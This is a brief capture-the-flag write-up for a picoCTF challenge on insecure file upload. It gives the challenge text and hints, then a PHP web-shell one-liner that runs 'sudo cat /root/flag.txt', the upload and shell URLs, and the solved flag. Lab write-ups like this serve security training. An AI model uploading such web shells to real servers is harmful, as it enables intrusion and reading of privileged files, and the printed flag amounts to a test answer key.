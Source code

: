 #### Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

Additional details will be available after launching your challenge instance.
#### Hints 
- File upload was not sanitized
- Whenever you get a shell on a remote machine, check `sudo -l`


```
nuesrto codigo:
<?php echo exec("sudo cat /root/flag.txt");?>

http://standard-pizzas.picoctf.net:64628/upload.php
http://standard-pizzas.picoctf.net:64628/uploads/shell.php
picoCTF{wh47_c4n_u_d0_wPHP_8ca28f94}
```

